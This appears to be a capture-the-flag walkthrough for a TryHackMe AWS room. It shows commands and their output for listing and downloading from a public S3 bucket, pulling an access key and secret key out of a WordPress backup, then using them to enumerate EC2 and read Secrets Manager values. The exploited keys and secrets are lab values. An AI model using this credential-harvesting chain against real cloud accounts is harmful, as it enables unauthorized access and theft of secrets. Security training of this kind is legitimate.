 apt install awscli
aws s3 ls s3://images.bestfestivalcompany.com --no-sign-request
2021-11-13 22:06:51       6148 .DS_Store
2021-11-13 19:43:03     108420 0vF39p3.png
2021-11-27 18:55:21     705191 AWSConsole.png
2021-11-13 19:43:03       5652 aws-logo.png
2021-11-13 22:06:51         68 flag.txt
2021-11-13 22:06:51    2349068 flyer.png
2021-11-13 19:43:03      92531 presents.jpg
2021-11-13 19:43:03       4680 tree.png
2021-11-24 06:52:22   16556739 wp-backup.zip

aws s3 cp s3://images.bestfestivalcompany.com/flag.txt . --no-sign-request
download: s3://images.bestfestivalcompany.com/flag.txt to ./flag.txt

cat flag.txt 
It's easy to get your elves data when you leave it so easy to find!


aws s3 cp s3://images.bestfestivalcompany.com/wp-backup.zip . --no-sign-request
download: s3://images.bestfestivalcompany.com/wp-backup.zip to ./wp-backup.zip

unzip wp-backup.zip

cd wp-backup

grep -i "AKIA" *.*
wp-config.php:define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');

AKIAQI52OJVCPZXFYAOI


aws configure --profile hr
AWS Access Key ID [None]: AKIAQI52OJVCPZXFYAOI
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 



cd ~.aws
cat config                 
[profile hr]
region = us-east-1
                                                                                                   
(base) ┌──(gd㉿lucy)-[~/.aws]
└─$ cat credentials 
[hr]
aws_access_key_id = AKIAQI52OJVCPZXFYAOI
aws_secret_access_key = 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


aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile hr
{
    "Account": "019181489476"
}


#aws ec2 describe-instances --output text --region us-east-1 --profile hr
RESERVATIONS    019181489476    043234062703    r-0e89ba65b28a7c699
INSTANCES       0       x86_64  HR-Po-Insta-1NAKAMW2PPVMT       False   True    xen     ami-0c2b8ca1dad447f8a      i-0c56041ac61cf5a95     t3a.micro       hr-key  2021-11-13T12:36:58.000Z        Linux/UNIX ip-172-31-68-81.ec2.internal    172.31.68.81            /dev/xvda       ebs     True    User initiated (2021-11-13 12:42:39 GMT)   subnet-00b1107c0c18c0722        RunInstances    2021-11-13T12:36:58.000Z   hvm     vpc-0235b5a9591606b73
BLOCKDEVICEMAPPINGS     /dev/xvda
EBS     2021-11-13T12:36:59.000Z        True    attached        vol-0ac79339aac8b249d
CAPACITYRESERVATIONSPECIFICATION        open
CPUOPTIONS      1       2
ENCLAVEOPTIONS  False
HIBERNATIONOPTIONS      False
METADATAOPTIONS enabled disabled        1       optional        applied
MONITORING      disabled
NETWORKINTERFACES               interface       16:35:78:d8:60:d1       eni-027945da0ddb79e59   019181489476       ip-172-31-68-81.ec2.internal    172.31.68.81    True    in-use  subnet-00b1107c0c18c0722   vpc-0235b5a9591606b73
ATTACHMENT      2021-11-13T12:36:58.000Z        eni-attach-0d91e2137f6014220    True    0       0 attached
GROUPS  sg-0c6e7cd87c1c8d035    default
PRIVATEIPADDRESSES      True    ip-172-31-68-81.ec2.internal    172.31.68.81
PLACEMENT       us-east-1f              default
SECURITYGROUPS  sg-0c6e7cd87c1c8d035    default
STATE   80      stopped
STATEREASON     Client.UserInitiatedShutdown    Client.UserInitiatedShutdown: User initiated shutdown
TAGS    aws:cloudformation:stack-id     arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7
TAGS    aws:cloudformation:logical-id   Instance
TAGS    created_by      Elf McHR
TAGS    aws:cloudformation:stack-name   HR-Portal
TAGS    Name    HR-Portal


#aws secretsmanager list-secrets --profile hr
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
            "Name": "HR-Password",
            "Description": "Portal DB Secret",
            "LastChangedDate": 1637717347.812,
            "LastAccessedDate": 1639699200.0,
            "Tags": [
                {
                    "Key": "aws:cloudformation:stack-name",
                    "Value": "HR-Portal"
                },
                {
                    "Key": "aws:cloudformation:logical-id",
                    "Value": "FalseSecret"
                },
                {
                    "Key": "aws:cloudformation:stack-id",
                    "Value": "arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7"
                },
                {
                    "Key": "created_by",
                    "Value": "Elf McHR"
                },
                {
                    "Key": "Name",
                    "Value": "Payroll"
                }
            ],
            "SecretVersionsToStages": {
                "70630b3c-4fbe-4a24-885d-18445bd808b1": [
                    "AWSCURRENT"
                ],
                "a702190e-69f7-4a8a-81fd-3d20b486657a": [
                    "AWSPREVIOUS"
                ]
            },
            "CreatedDate": 1636807016.521
        }
    ]
}


https://docs.aws.amazon.com/secretsmanager/latest/userguide/tutorials_basic.html

aws secretsmanager get-secret-value --secret-id HR-Password --profile hr
{
    "ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
    "Name": "HR-Password",
    "VersionId": "70630b3c-4fbe-4a24-885d-18445bd808b1",
    "SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives.",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1637717347.718
}


Santa live in Eu-north
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-regions-availability-zones.html


aws secretsmanager get-secret-value --secret-id HR-Password --profile hr --region eu-north-1                                                       255 ⨯
{
    "ARN": "arn:aws:secretsmanager:eu-north-1:019181489476:secret:HR-Password-KIJEvK",
    "Name": "HR-Password",
    "VersionId": "f806c3cd-ea20-4a1a-948f-80927f3ad366",
    "SecretString": "Winter2021!",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1636809979.996
}

https://tryhackme.com/room/adventofcyber3
https://www.youtube.com/watch?v=RAgvdpvKJa0&t=215s